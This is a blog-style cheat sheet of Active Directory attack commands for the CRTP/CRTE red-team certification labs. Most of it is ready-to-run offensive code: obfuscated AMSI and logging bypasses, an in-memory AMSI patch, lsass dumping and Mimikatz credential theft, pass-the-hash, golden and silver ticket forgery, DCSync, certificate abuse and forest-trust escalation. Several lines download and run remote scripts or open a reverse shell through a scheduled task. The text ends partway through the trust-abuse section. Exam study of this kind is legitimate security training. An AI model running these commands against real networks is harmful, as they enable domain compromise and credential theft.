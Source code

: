 ```yaml
---
title: "5 - Cheat Sheet"
classes: wide
header:  
  teaser: /assets/images/posts/crte/crte-teaser6.jpg
  overlay_image: /assets/images/main/header4.jpg
  overlay_filter: 0.5
ribbon: Firebrick
excerpt: "Cheat Sheet for CRTP/CRTE exams"
description: "Cheat Sheet for CRTP/CRTE exams"
categories:
  - notes
  - crte
tags:
  - intermediate
  - AD
  - Windows 
  - cheatsheet
toc: false
---
```


# Cheat Sheet

As we know, these exams are time-based. So, I created this cheat sheet to make sure the syntax of the commands are correct and consequently I dont lose any time with BS.

> The important part is to understand the content; the cheat sheet is just an **auxiliary tool** in the process.

- There is no hashes or informations of the exams here!

> Copy Button added - tell me what u think

<style>
  /* Style for the chapter container */
  .chapters {
    margin: 10px;
    padding: 10px;
    border: 1px solid #333;
    border-radius: 15px; 
    font-family: 'Arial', sans-serif;
    background-color: #1a1a1a;
    color: #ddd;
    width: calc(100% - 40px);
  }

  /* Style for the details summary */
  details summary {
    cursor: pointer;
    font-weight: bold;
    background-color: #333;
    padding: 12px;
    border: 1px solid #222;
    border-radius: 8px; 
    margin-bottom: 10px;
  }

  /* Style for the details content */
  details .content {
    margin: 20px 0;
    padding: 20px;
    border: 1px solid #222;
    border-radius: 8px; 
    background-color: #090a08;
  }

  
</style>



<div class="chapters">
  <details>
    <summary>Bypass</summary>    
    <div class="content" markdown="1">
 

**AMSI bypass**:
```powershell
Set-Item ('Va'+'rI'+'a'+'blE:1'+'q2'+'uZx') ([TYpE]("F"+'rE')) 
(Get-variable (('1Q'+'2U') +'zX'))."A`ss`Embly"."GET`TY`Pe"(('Uti'+'l','A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em'))).g`etf`iElD"(('a'+'msi'),'d',('I'+'nitF'+'aile'))).(sE`T`VaLUE)(${n`ULl},${t`RuE})
```

**Script Block logging bypass**:
```powershell
[Reflection.Assembly]::"l`o`AdwIThPa`Rti`AlnamE"(('S'+'ystem'+'.C'+'ore'))."g`E`TTYPE"(('Sys'+'tem.Di'+'agno'+'stics.Event'+'i'+'ng.EventProv'+'i'+'der'))."gET`FI`eLd"(('m'+'_'+'enabled'),('NonP'+'ubl'+'ic'+',Instance'))."seTVa`l`Ue"([Ref]."a`sSem`BlY"."gE`T`TyPE"(('Sys'+'tem'+'.Mana'+'ge'+'ment.Aut'+'o'+'mation.Tracing.'+'PSEtwLo'+'g'+'Pro'+'vi'+'der'))."gEtFIe`Ld"(('e'+'twProvid'+'er'),('N'+'o'+'nPu'+'b'+'lic,Static'))."gE`Tva`lUe"($null),0)
```

**.NET AMSI bypass**:
```powershell
$ZQCUW = @"
using System;
using System.Runtime.InteropServices;
public class ZQCUW {
[DllImport("kernel32")]
public static extern IntPtr GetProcAddress(IntPtr hModule, string
procName);
[DllImport("kernel32")]
public static extern IntPtr LoadLibrary(string name);
[DllImport("kernel32")]
public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr
dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@
Add-Type $ZQCUW
$BBWHVWQ =
[ZQCUW]::LoadLibrary("$([SYstem.Net.wEBUtIlITy]::HTmldecoDE('&#97;&#109;&#115;&#105;&#46;&#100;&#108;&#108;'))")
$XPYMWR = [ZQCUW]::GetProcAddress($BBWHVWQ,
"$([systeM.neT.webUtility]::HtMldECoDE('&#65;&#109;&#115;&#105;&#83;&#99;&#97;&#110;&#66;&#117;&#102;&#102;&#101;&#114;'))")
$p = 0
[ZQCUW]::VirtualProtect($XPYMWR, [uint32]5, 0x40, [ref]$p)
$TLML = "0xB8"
$PURX = "0x57"
$YNWL = "0x00"
$RTGX = "0x07"
$XVON = "0x80"
$WRUD = "0xC3"
$KTMJX = [Byte[]] ($TLML,$PURX,$YNWL,$RTGX,+$XVON,+$WRUD)
[System.Runtime.InteropServices.Marshal]::Copy($KTMJX, 0, $XPYMWR, 6)
```

  </div>
  </details>

  <details>
    <summary>Enumeration</summary>    
    <div class="content" markdown="1">
 


**AD Module**:
Import:
```powershell
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

```powershell
Get-ADUser -Filter * | Select -ExpandProperty samaccountname
Get-ADComputer –Filter * | select –expand name
Get-ADGroup -Identity 'Domain Admins' -Properties *
Get-ADGroup -Identity machineadmins -Properties Description
Get-ADGroupMember -Identity 'Domain Admins'
Get-ADGroupMember -Identity 'Enterprise Admins'
Get-ADGroupMember -Identity 'Enterprise Admins' -Server domain.local
Get-ADOrganizationalUnit -Identity 'OU=StudentsMachines,DC=us,DC=domain,DC=local' | %{Get-ADComputer -SearchBase $_ -Filter *} | select name
Get-ACL 'AD:\CN=Domain Admins,CN=Users,DC=us,DC=domain,DC=local' | select -ExpandProperty Access
(Get-ADForest).Domains
Get-ADTrust -Filter *
Get-ADTrust -Filter 'intraForest -ne $True' -Server (Get-ADForest).Name
(Get-ADForest).Domains | %{Get-ADTrust -Filter '(intraForest -ne $True) -and (ForestTransitive -ne $True)' -Server $_}
Get-ADTrust -Filter * -Server domain.local
```

**Powerview**:
Import
```powershell
. C:\AD\Tools\PowerView.ps1
```

```powershell
(Get-DomainPolicy).KerberosPolicy
Get-DomainGPOLocalGroup
Get-DomainGroupMember -Identity <group>
Get-DomainOU
(Get-DomainOU -Identity <OU>).distinguishedname | %{Get-DomainComputer -SearchBase $_} | select name
Get-DomainGPO
(Get-DomainOU -Identity <OU>).gplink
Get-DomainGPO -Identity '{<result of .gplink>}'
Get-DomainObjectAcl -Identity "Domain Admins" -ResolveGUIDs -Verbose
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "<user>"}
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "<group>"}
Get-ForestDomain -Verbose | Get-DomainTrust | ?{$_.TrustAttributes -eq 'FILTER_SIDS'}
Get-ForestTrust -Forest <forest>
```

  </div>
  </details>

  <details>
    <summary>Local Privesc</summary>
    <div class="content" markdown="1">
 


```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\PowerUp.ps1
Invoke-AllChecks
Invoke-ServiceAbuse -Name ALG -UserName domain\studentuserx -Verbose
```

**Same attack with accesschk64 from SysInternals**:
```powershell
.\accesschk64.exe -uwcqv 'user' *

sc.exe config ALG binPath= "net localgroup administrators domain\user
/add"
sc.exe stop ALG
sc.exe start ALG
sc.exe config ALG binPath= "C:\WINDOWS\System32\alg.exe"
sc.exe stop ALG
sc.exe start ALG
```

**Look for local administrative access w/ Powerview**:
```powershell
Find-LocalAdminAccess -Verbose
Find-WMILocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess.ps1
```

**Recursively look for group membership**:
```powershell
function Get-ADPrincipalGroupMembershipRecursive ($SamAccountName) {
  $groups = @(Get-ADPrincipalGroupMembership -Identity $SamAccountName | select -ExpandProperty distinguishedname) 
  $groups
  if ($groups.count -gt 0) {
    foreach ($group in $groups) {
      Get-ADPrincipalGroupMembershipRecursive $group
    }
  }
}
```

> ACL entries

**Check if any of the groups has interesting ACL entries**:
```powershell
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match 'managers'}
Get-DomainObjectAcl -Identity machineadmins -ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match 'managers'}
```

  </div>
  </details>

  <details>
    <summary>LAPS</summary>
    <div class="content" markdown="1">

```powershell
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
Import-Module C:\AD\Tools\AdmPwd.PS\AdmPwd.PS.psd1 -Verbose
C:\AD\Tools\Get-LapsPermissions.ps1
```

With Powerview:
```powershell
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier); $_}
```

**Read the password**:
```powershell
Get-ADComputer -Identity <computer> -Properties ms-mcs-admpwd | select -ExpandProperty ms-mcs-admpwd
Get-AdmPwdPassword -ComputerName <computer>
Get-DomainObject -Identity <computer> | select -ExpandProperty ms-mcs-admpwd
```

**Access the machine with the password**:
```powershell
winrs -r:<computer> -u:.\administrator -p:<passwd> cmd
$passwd = ConvertTo-SecureString '<password>' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("<computer>\administrator", $passwd)
$mailmgmt = New-PSSession -ComputerName <computer> -Credential $creds
$mailmgmt
```

  </div>
  </details>

  <details>
    <summary>Extract Credentials</summary>
    <div class="content" markdown="1">
 


winrs:
```powershell
winrs net use x: \\<computer>\C$\Users\Public /user:<computer>\Administrator <password>
echo F | xcopy C:\AD\Tools\Loader.exe x:\Loader.exe
net use x: /d
```

**Bypass behaviour detection**:
```powershell
winrs -r:<computer> -u:.\administrator -p:<password> cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.100.X
```

**Extract**:
```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe
sekurlsa::keys
```

**Microsoft signed binary to download NetLoader**:
```powershell
winrs -r:<computer> -u:.\administrator -p:<password>
"bitsadmin /transfer WindowsUpdates /priority normal http://127.0.0.1:8080/Loader.exe C:\\Users\\Public\\Loader.exe"
```

**PowerShell Remoting and Invoke-Mimi**:
```powershell
$passwd = ConvertTo-SecureString '<password>' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("<computer>\administrator", $passwd)
$mailmgmt = New-PSSession -ComputerName <computer> -Credential $creds
Enter-PSSession $mailmgmt
```

**Bypass AMSI before proceeding**!
```powershell
Invoke-Command -FilePath C:\AD\Tools\Invoke-Mimi.ps1 -Session $mailmgmt
Enter-PSSession $mailmgmt
Invoke-Mimi -Command '"sekurlsa::keys"'
```

  </div>
  </details>

  <details>
    <summary>gMSA</summary>
    <div class="content" markdown="1">
 


```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
Get-ADServiceAccount -Filter *
Get-ADServiceAccount -Identity jumpone -Properties * | select PrincipalsAllowedToRetrieveManagedPassword
```

> You have to open a shell with the user that has permission to read gMSA, after that

```powershell
Import AD Module again, then:
$Passwordblob = (Get-ADServiceAccount -Identity jumpone -Properties msDS-ManagedPassword).'msDS-ManagedPassword'
To decode the password we can use DSinternals:
Import-Module C:\AD\Tools\DSInternals_v4.7\DSInternals\DSInternals.psd1
$decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob
ConvertTo-NTHash –Password $decodedpwd.SecureCurrentPassword
```

> After that, you can PTH to see if the user has access to another machine!

  </div>
  </details>

  <details>
    <summary>PTH</summary>
    <div class="content" markdown="1">

**From an elevated shell**:
```powershell
C:\AD\Tools\SafetyKatz.exe "sekurlsa::opassth /user:<user> /domain:<domain> /aes256:<password> /run:cmd.exe" "exit"
```

**using NTLM**:
```powershell
C:\AD\Tools\SafetyKatz.exe "sekurlsa::opassth /user:<user> /domain:<domain>  /ntlm:<password> /run:cmd.exe" "exit"

C:\AD\Tools\Rubeus.exe s4u /user:<user> /aes256:<password> /impersonateuser:administrator /msdsspn:CIFS/<machine.domain> /altservice:HTTP /domain:<domain> /ptt
```

**Doesn't need elevation**:
```powershell
C:\AD\Tools\Rubeus.exe asktgt /domain:<domain> /user:<user> /aes256:<password> opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

  </div>
  </details>

  <details>
    <summary>Application Whitelisting</summary>
    <div class="content" markdown="1">

> CLM, AppLocker, WDAC

**Verify if PowerShell is running in Constrained Language Mode**:
```powershell
$ExecutionContext.SessionState.LanguageMode
```

**Check for AppLocker** (if there is an error, the AppLocker is not in use):
```powershell
reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2
Get-AppLockerPolicy –Effective
```

**Verify WDAC**:
```powershell
Get-CimInstance -ClassName Win32_DeviceGuard -Namespace root\Microsoft\Windows\DeviceGuard
CodeIntegrityPolicyEnforcementStatus : 2
UsermodeCodeIntegrityPolicyEnforcementStatus : 2
```

Check out [Lolbas Project on Github](https://lolbas-project.github.io/)

> Lets DUMP lsass*

**Get the PID of lsass.exe process**:
```powershell
tasklist /FI "IMAGENAME eq lsass.exe"
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 708 C:\Users\Public\lsass.dmp full
```

**Copy the `lsass` to your machine**:
```powershell
echo F | xcopy \\us-jump\C$\Users\Public\lsass.dmp C:\AD\Tools\lsass.dmp
```

**Run Mimikatz with Admin Priv, then**:
```powershell
sekurlsa::minidump C:\AD\Tools\lsass.DMP
privilege::debug
sekurlsa::keys
```

**Check for Certificates**:
```powershell
echo F | xcopy C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat \\us-jump\C$\Users\Public\RunWithRegistryNonAdmin.bat /Y
echo F | xcopy C:\AD\Tools\InviShell\InShellProf.dll \\us-jump\C$\Users\Public\InShellProf.dll /Y
```

```powershell
winrs -r:us-jump cmd
C:\Users\Public\RunWithRegistryNonAdmin.bat
ls cert:\LocalMachine\My
ls cert:\LocalMachine\My\BAD78F43BB4CB13C4843E49B51AA051530FFBBDB | Export-PfxCertificate -FilePath C:\Users\Public\user.pfx -Password (ConvertTo-SecureString -String 'SecretPass@123' -Force -AsPlainText)
```

**Copy the certificate**:
```
echo F | xcopy \\us-jump\C$\Users\Public\user.pfx C:\AD\Tools\user.pfx
```

  
  </div>
  </details>
  
  <details>
    <summary>Unconstrained delegation</summary>
    <div class="content" markdown="1">
 


```powershell
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
```

**Access the machine with unconstrained deleg, then**:
```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
cd C:\AD\Tools\
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess -Verbose
```

**Copy Rubeus using xcopy and execute using winrs**:
```powershell
echo F | xcopy C:\AD\Tools\Rubeus.exe \\us-web\C$\Users\Public\Rubeus.exe /Y
winrs -r:us-web cmd.exe
C:\Users\Public\Rubeus.exe monitor /targetuser:DC$ /interval:5 /nowrap
```

**Copy and execute Rubeus using PowerShell Remoting**:
```powershell
$usweb1 = New-PSSession us-web
Copy-Item -ToSession $usweb1 -Path C:\AD\Tools\Rubeus.exe -Destination C:\Users\Public
Enter-PSSession $usweb1
cd C:\Users\Public .\Rubeus.exe monitor /targetuser:DC$ /interval:5 /nowrap
```

**Abuse the printer bug**:
```powershell
C:\AD\Tools\MS-RPRN.exe \\dc.domain.local \\us-web.domain.local
```

**Copy the Base64EncodedTicket, then**:
```powershell
C:\AD\Tools\Rubeus.exe ptt /ticket:TGTofDC$
```

**Run DCSync attack**:
```powershell
C:\AD\Tools\SharpKatz.exe --Command dcsync --User domain\krbtgt --Domain domain.local --DomainController dc.domain.local
```

**To get EA access**

it's the same:

1. Monitor the DC of the root of the forest
2. Execute MS-RPRN with the DC target
3. Copy the Base64 and PTT
4. DCSync EA (Administrator of the root forest)

```powershell
C:\AD\Tools\SharpKatz.exe --Command dcsync --User domain\administrator --Domain domain.local --DomainController domain-dc.domain.local
```

**In a different forest**

> If TGT Delegation is enabled across forests trusts, we can abuse the printer bug across two-way forest trusts as well.

1. ASKTGT
2. Send Rubeus to the target machine
3. Access the machine with WINRS
4. Execute Rubeus monitor (with the Target Forest)
5. Execute MS-RPRN (with the Target Forest)
6. Copy base64 & PTT with Rubeus

**Now we can run DCSync to the Targeted Forest**:
```powershell
C:\AD\Tools\SharpKatz.exe --Command dcsync --User usvendor\krbtgt --Domain usvendor.local --DomainController usvendor-dc.usvendor.local
```

  </div>
  </details>

  <details>
    <summary>Constrained delegation</summary>
    <div class="content" markdown="1">
 


```powershell
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

**Collect the service from msDS-AllowedToDelegateTo and access with Rubeus S4U**:
```powershell
klist
winrs -r:us-mssql.domain.local cmd.exe
```

**To execute on another Forest just add the flag -Server**:
```powershell
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo -Server domain.local
```

**We need access to the machine that has Constrained Deleg enabled**:
```powershell
C:\AD\Tools\Rubeus.exe hash /password:Qwerty@123 /user:<user> /domain:domain.local
C:\AD\Tools\Rubeus.exe s4u /user:<user> /rc4:<hash> /impersonateuser:Administrator /domain:domain.local /msdsspn:nmagent/dc.domain.local /altservice:ldap /dc:dc.domain.local /ptt
```

**With the LDAP service ticket, We can DCSync**:
```powershell
C:\AD\Tools\SharpKatz.exe --Command dcsync --User domain\krbtgt --Domain domain.local --DomainController dc.domain.local
C:\AD\Tools\SharpKatz.exe --Command dcsync --User domain\administrator --Domain domain.local --DomainController dc.domain.local
```


  </div>
  </details>

  <details>
    <summary>ACLs Write Permissions</summary>
    <div class="content" markdown="1">

**If you have Write permission**:
```powershell
echo F | xcopy C:\AD\Tools\Loader.exe \\us-mgmt\C$\Users\Public\Loader.exe /Y
winrs -r:us-mgmt cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.100.x
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe
sekurlsa::keys
```

**If you get any user, run the full enumeration on that user**:
```powershell
C:\AD\Tools\PowerView.ps1
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match 'mgmtadmin'}
```

**With GenericWrite we can set Resource-based Constrained Delegation (RBCD)**:
```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
$comps = 'user1$','user2$'
Set-ADComputer -Identity us-helpdesk -PrincipalsAllowedToDelegateToAccount $comps -Verbose
```

**Extract AES of your machine**:
```powershell
C:\AD\Tools\SafetyKatz.exe -Command "sekurlsa::keys" "exit"
```

**Go for the one with SID S-1-5-18 that is a well-known SID for the SYSTEM user**:
```powershell
C:\AD\Tools\Rubeus.exe s4u /user:machine$ /aes256:$password /msdsspn:http/us-helpdesk /impersonateuser:administrator /ptt
klist
winrs -r:us-helpdesk cmd
```

**To copy our loader to the machine, we need to access the filesystem. So, request a TGS for CIFS using Rubeus**:
```powershell
C:\AD\Tools\Rubeus.exe s4u /user:machine$ /aes256:$password /msdsspn:cifs/us-helpdesk /impersonateuser:administrator /ptt
echo F | xcopy C:\AD\Tools\Loader.exe \\us-helpdesk\C$\Users\Public\Loader.exe /Y
winrs -r:us-helpdesk cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.100.x
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe
```

> If any new users are found, *PTH and Find-PSRemotingLocalAdminAccess -Verbose*



  </div>
  </details>

  <details>
    <summary>Tickets</summary>
    <div class="content" markdown="1">
 


**GOLDEN**

**Without using Invoke-Mimi.ps1**:
```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:<domain> /sid:<SID> /aes256:<hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
klist
echo F | xcopy C:\AD\Tools\Loader.exe \\dc\C$\Users\Public\Loader.exe /Y
winrs -r:dc cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.100.x
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe
```

**Using Invoke-Mimi.ps1 and PowerShell Remoting**:
```powershell
. C:\AD\Tools\Invoke-Mimi.ps1
Invoke-Mimi -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<SID> /aes256:<hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
$sess = New-PSSession <machine name>
Enter-PSSession -Session $sess

# bypass AMSI 

exit
Invoke-Command -FilePath C:\AD\Tools\Invoke-Mimi.ps1 -Session $sess
Enter-PSSession -Session $sess
Invoke-Mimi -Command '"lsadump::lsa /patch"'
```

**SILVER**

```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:<domain> /sid:<SID> /target:<target> /service:HOST /aes256:<hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
klist
```

**Start a listening in another prompt**:
```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\powercat.ps1
powercat -l -v -p 443 -t 1000
schtasks /create /S <target machine> /SC Weekly /RU "NT Authority\SYSTEM" /TN "Userx" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://192.168.100.x/Invoke-PowerShellTcpEx.ps1''')'"
schtasks /Run /S <target machine> /TN "Userx"
```

We should get a shell on the listener prompt. 

> For *WMI*, we need 2 tickets – *HOST and RPCSS*

```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:<domain> /sid:<SID> /target:<target dc> /service:HOST /aes256:<hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:<domain> /sid:<SID> /target:<target dc> /service:RPCSS /aes256:<hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
Get-WmiObject -Class win32_operatingsystem -ComputerName <computer name>
```

  </div>
  </details>

  <details>
    <summary>DCSync</summary>
    <div class="content" markdown="1">
 


```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\PowerView.ps1
```

**Check if the user has Replication Rights**:
```powershell
Get-DomainObjectAcl -SearchBase "dc=us,dc=domain,dc=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "studentuserx"}
```

**With DA privileges We can add those rights**:
```powershell
C:\AD\Tools\SafetyKatz.exe "sekurlsa::opassth /user:administrator /domain:domain.local /aes256:<hash> /run:cmd.exe" "exit"
```

**Using Powerview**:
```powershell
Add-DomainObjectAcl -TargetIdentity "dc=us,dc=domain,dc=local" -PrincipalIdentity studentuserx -Rights DCSync -PrincipalDomain domain.local -TargetDomain domain.local -Verbose
```

**Using AD Module with Set-ADACL from RACE**:
```powershell
Set-ADACL -DistinguishedName 'DC=us,DC=domain,DC=local' -SamAccountName studentuserx -GUIDRight DCSync -Verbose
```

> From a normal shell, check the rights again

**Now we can execute DCSync attacks**:
```powershell
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:domain\krbtgt" "exit"
Invoke-Mimi -Command '"lsadump::dcsync /user:domain\krbtgt"'
```

  </div>
  </details>

  <details>
    <summary>AD CS</summary>
    <div class="content" markdown="1">
 


```powershell
C:\AD\Tools\Certify.exe cas
C:\AD\Tools\Certify.exe find
```

**ENROLLEE_SUPPLIES_SUBJECT attribute means we can request a certificate for ANY user**:
```powershell
C:\AD\Tools\Certify.exe find /enrolleeSuppliesSubject
C:\AD\Tools\Rubeus.exe asktgt /user:<user> /certificate:C:\AD\Tools\user.pfx /password:SecretPass@123 /nowrap /ptt
C:\AD\Tools\Certify.exe request /ca:domain-DC.domain.local\DOMAIN-DC-CA /template:ForAdminsofPrivilegedAccessWorkstations /altname:Administrator
```

> *Copy all the text between -----BEGIN RSA PRIVATE KEY----- and -----END CERTIFICATE----- and save it to cert.pem*


C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\DA.pfx

**Finally, request a TGT for the DA**:
```powershell
C:\AD\Tools\Rubeus.exe asktgt /user:Administrator /certificate:C:\AD\Tools\DA.pfx /password:SecretPass@123 /nowrap /ptt
winrs -r:dc whoami
```

**For EA**

**Request and convert to PFX, then request the TGT**:
```powershell
C:\AD\Tools\Rubeus.exe asktgt /user:domain.local\Administrator /dc:domain-dc.domain.local /certificate:C:\AD\Tools\EA.pfx /password:SecretPass@123 /nowrap /ptt
winrs -r:domain-dc whoami
```

   </div>
  </details>

  <details>
    <summary>Azure AD Connect</summary>
    <div class="content" markdown="1">

```powershell
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" -Server domain.local -Properties * | select SamAccountName,Description | fl
C:\AD\Tools\Rubeus.exe asktgt /domain:domain.local /user:<user> /aes256:<hash> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
echo F | xcopy C:\AD\Tools\InviShell\InShellProf.dll \\us-adconnect\C$\Users\<user>\Downloads\InShellProf.dll /Y
echo F | xcopy C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat \\us-adconnect\C$\Users\<user>\Downloads\RunWithRegistryNonAdmin.bat /Y
winrs -r:us-adconnect cmd
cd C:\Users\<user>\Downloads
RunWithRegistryNonAdmin.bat
```

**Extract credentials of MSOL_**:
```powershell
iex (New-Object Net.WebClient).DownloadString('http://192.168.100.x/adconnect.ps1')
ADconnect
```

**Now we can run DCsync (From elevated shell)**:
```powershell
runas /user:domain.local\MSOL_16fb75d0227d /netonly cmd
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:domain\administrator /domain:domain.local" "exit"
```

**DCsync (from a normal shell)**:
```powershell
runas /user:domain.local\MSOL_16fb75d0227d /netonly cmd
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\Invoke-Mimi.ps1
Invoke-Mimi -Command '"lsadump::dcsync /user:domain\administrator /domain:domain.local"'
```


   </div>
  </details>

  <details>
    <summary>Domain Privesc (TrustKey & KRBTGT)</summary>
    <div class="content" markdown="1">
 


**Using TRUSTKEY**

**With DA - Escalate to EA or DA of the parent domain**:

```powershell
C:\AD\Tools\Rubeus.exe asktgt /user:administrator /aes256:<hash> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
echo F | xcopy C:\AD\Tools\Loader.exe \\dc\C$\Users\Public\Loader.exe /Y
winrs -r:dc cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.100.x
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe
lsadump::trust /patch
```

> Grab the RC4 of [ In ] child domain -> parent domain**
   
**Create the inter-realm TGT using the trust key**:   
```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /domain:domain.local /sid:S-1-5-21-210670787-2521448726-163245708 /sids:S-1-5-21-2781415573-3701854478-2406986946-519 /rc4:<hash> /user:Administrator /service:krbtgt /target:domain.local /ticket:C:\AD\Tools\trust_tkt.kirbi" "exit"
```

``` powershell
C:\AD\Tools\Rubeus.exe asktgs /ticket:C:\AD\Tools\trust_tkt.kirbi /service:CIFS/domain-dc.domain.local /dc:domain-dc.domain.local /ptt
```

``` powershell
klist
```

``` powershell
dir \\domain-dc.domain.local\c$
```
 

**Using KRBTGT Hash**

**Create inter-realm TGT with SID history for Enterprise Admins**:
```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21-210670787-2521448726-163245708 /krbtgt:<hash> /sids:S-1-5-21-2781415573-3701854478-2406986946-519 /ptt" "exit"
klist
winrs -r:domain-dc cmd
```


   </div>
  </details>

  <details>
    <summary>Abuse Trust Relationship (Forest)</summary>
    <div class="content" markdown="1">
 


```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:<domain> /sid:<SID> /aes256:<hash> /ptt"
lsadump::dcsync /user:domain\user$ /domain:domain.local
```

**Copy SafetyKatz and Rubeus**:
```powershell
echo F | xcopy C:\AD\Tools\BetterSafetyKatz.exe \\dc.domain.local\C$\Users\Public\BetterSafetyKatz.exe /Y
echo F | xcopy C:\AD\Tools\Rubeus.exe \\dc.domain.local\C$\Users\Public\Rubeus.exe /Y
```

**Forge an inter-realm TGT**:
```powershell
winrs -r:dc.domain.local cmd
